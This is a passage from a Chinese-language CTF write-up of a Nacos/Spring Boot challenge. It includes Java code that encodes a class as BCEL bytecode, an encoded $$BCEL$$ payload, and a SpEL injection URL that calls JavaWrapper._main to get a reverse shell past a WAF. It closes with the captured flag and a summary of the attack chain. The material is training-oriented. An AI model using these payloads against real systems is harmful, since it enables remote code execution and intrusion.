import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

import java.io.IOException;

/**
 * Hello world!
 *
 */
public class App 
{
    public static void main( String[] args ) throws Exception {
        JavaClass javaClass = Repository.lookupClass(calc.class);
        String code = Utility.encode(javaClass.getBytes(), true);
        System.out.println(code);
        Class.forName("$$BCEL$$"+code,true,new ClassLoader());
        //new ClassLoader().loadClass("$$BCEL$$"+code).newInstance();
        //String str="$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmR$5dO$TA$U$3dC$b7$5d$ba$ae$C$c5$ef$_$aab$y$d2$ba$R$88$n$a91i$9ab4$db$WiS$82$3e$98$e92$d9N$d3$dd$r$bb$db$ba$80$fc$u_$d4$f8$e0$P$f0G$Z$ef$b4$84$Sa$92$993s$ee$99s$e7$de$cc$9f$bf$bf$7e$Dx$89$a7$G2$b8m$e0$O$ee$ce$e2$9e$c2$fb$3a$k$e8x$c8$90y$z$7d$Z$bfaH$VV$3a$MZ5$d8$X$Ms$b6$f4Ec$e8uE$d8$e6$dd$B19$3bp$f8$a0$c3C$a9$ce$a7$a4$W$f7d4$8e$85$ae$r$S$ee$j$M$84E2$a7$cc$90$fe$ecq$e93$dc$y$7c$b2$fb$7c$c4$ad$B$f7$5d$ab$V$87$d2w$cb$e3T$3ctG$M$8b$97$84$Z$8cZ$e2$88$83X$G$7e$a4c$89$c4$T3u$87$S$g$ad$60$Y$3abK$aaGdU$c2$X$ca$c3$84$8eY$jy$T$8f$f0$98$81wy$d4$cb$97$9c$fc$b1pzAq$cf$db$3a$e2$d5J$cc$5b$95$d5$f7$b22$fa$f8$b6$b3f$af$ef$f4$9d$eafRo$7f$Y$d6$db$b55$bb_K$9a$ad$8d$c3F$bb$3ej$i9$eb$8d$c3$ca$97m$b9$97$9c$7c$3d$s3$f1j$a3X$da$9f$ec$7b$c5$92$3c1$f1$E$cb$M$f3$ff$97O$d4$b4$a6f$b7$_$9c$98$K$jS2$b0$de5$cf$8acX$98$Kw$86$7e$y$3d$aa$c8pE$7cv$b8QX$b1$_h$a8C$9aH$E$rzV$b8$a4$bb$e7$a8$ed0pD$U$95$a9$ri$fa$Ej$a4$c0T$a3h$cd$d2$c9$od$84$e9$e7$3f$c0$be$d1f$G$G$ad$99$J$89$x$b4$9a$a7$7b$TW$J$b3$b8$869R$a9$cb$9b$84$wf$fc$c4L$$$f5$j$da$ee$d4$c1$m$E$r$caR$aa$a9$8b$81y$y$Q$e6hj$c4$yR$fc$3a$f9M$k$b3JS$a9$$$3c$c4$3cgA$3d$Z$5b$d0$df$g$abn$fd$D$f9$9fP$X$e8$C$A$A";
        com.sun.org.apache.bcel.internal.util.JavaWrapper._main();
    }

}

```

这里也可以使用 `poc2jar` 工具。

最终填入以下内容可反弹 shell。拿到内网访问后可搭建 socks5 代理，nacos 服务器本身不含 `curl`。这里保留 payload 结构，不保留一次性完整 URL：`type` 参数中通过 SpEL 调用 `com.sun.org.apache.bcel.internal.util.JavaWrapper._main()`，参数为 URL 编码后的 `$$BCEL$$...` 字节码。

```
http://<SPRINGBOOT_INTERNAL>:8686/?type=__%24%7BT%20(com.sun.org.apache.bcel.internal.util.JavaWrapper)._main(%7B%22%24%24BCEL%24%24...%22%7D)%7D__%3A%3A.x
```




读取 flag：

```
root@356dc463abec:/# cat WM*
cat WM*
WMCTF{Nac0s_RcE_1s_n0t_D1ffi3ult_4nd_Bc3l_i5_funn7}root@356dc463abec:/# ^C
```

## 方法总结

- 核心技巧：Nacos Hessian 反序列化投递内存马，借助内网代理继续攻击 Spring Boot 服务，再用 BCEL 字节码绕过 WAF 执行命令。
- 识别信号：Nacos `2.2.2`、JRaft `WriteRequest`、Hessian2 反序列化、内网 Spring Boot 与 WAF 同时出现时，应考虑“先控入口服务，再横向打内网服务”的链路。
- 复用要点：内存马阶段要处理 Tomcat request wrapper，BCEL 阶段要注意目标 JDK 是否仍包含 `com.sun.org.apache.bcel.internal` 相关类以及 WAF 对 `${...}`、括号和编码的处理。
